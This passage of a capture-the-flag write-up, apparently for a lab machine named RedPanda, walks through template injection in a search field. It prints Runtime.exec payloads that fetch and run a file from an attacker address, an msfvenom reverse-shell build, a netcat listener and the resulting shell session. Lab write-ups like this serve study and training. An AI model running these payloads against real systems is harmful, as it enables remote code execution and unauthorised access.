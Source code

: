 The next step I will be trying to get a reverse shell to the target machine, so at first i tried to play a little bit with this vulnerability to see how can I get to upload a malware file and executed it on the target machine.

After some reading, I found that `*{T(java.lang.Runtime).getRuntime().exec('')}` can run shell commands through the search field. So I started a Python http server to see if I can get the target machine to connect to my server. At first I entered in the search field `${T(java.lang.Runtime).getRuntime().exec('curl 10.10.16.2:80')}`:

```shell
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.170 - - [16/Sep/2022 01:25:32] "GET / HTTP/1.1" 200 -
```

Perfect, now I can upload a file on the target machine and run it, and get a reverse shell. I prepared a non-meterpreter stageless payload using `msfvenom`:

```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.2 LPORT=1337 -f elf > payload.elf
```

Before uploading the payload to the target machine, I started listening on port 1337 using netcat:

```shell
$ nc -lvnp 1337                        
listening on [any] 1337 ...

```

And now time to upload the payload. first I uploaded the payload, then I had to change the permissions to execute the payload file, then run it, using the following queries in the search field:

```java
*{T(java.lang.Runtime).getRuntime().exec("wget http://10.10.16.5/payload.elf")}
*{T(java.lang.Runtime).getRuntime().exec("chmod 777 payload.elf")}
*{T(java.lang.Runtime).getRuntime().exec("./payload.elf")}
```

And we finally got a reverse shell! to make the shell more interactive I executed the following commands:

```shell
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.170] 51030
whoami
woodenk
python3 -c "import pty; pty.spawn('/bin/bash')"
woodenk@redpanda:/tmp/hsperfdata_woodenk$ ^Z
zsh: suspended  sudo nc -lvnp 1337
                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ stty raw -echo                                 
                                                                                                                                                             
┌──(kali㉿kali)-[~]
                                                 └─$ fg              
[1]  + continued  sudo nc -lvnp 1337
                                    export TERM=xterm
export TERM=xterm
woodenk@redpanda:/tmp/hsperfdata_woodenk$ ls   
ls
887  linpeas  linpeas.sh  notevil1.elf  payload.elf
woodenk@redpanda:/tmp/hsperfdata_woodenk$ 

```
